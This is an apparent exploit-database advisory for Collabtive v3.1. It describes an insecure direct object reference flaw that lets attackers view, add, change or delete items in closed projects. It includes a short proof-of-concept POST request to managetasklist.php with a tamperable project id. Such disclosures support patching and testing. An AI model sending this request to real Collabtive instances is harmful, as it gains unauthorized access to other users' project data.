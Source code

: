 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view/add/update/delete/ every item in the project that is closed(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /managetasklist.php?action=add&id=3(CHANGE HERE) HTTP/1.1
...

name=aaa&desc=aaaaa&milestone=0
```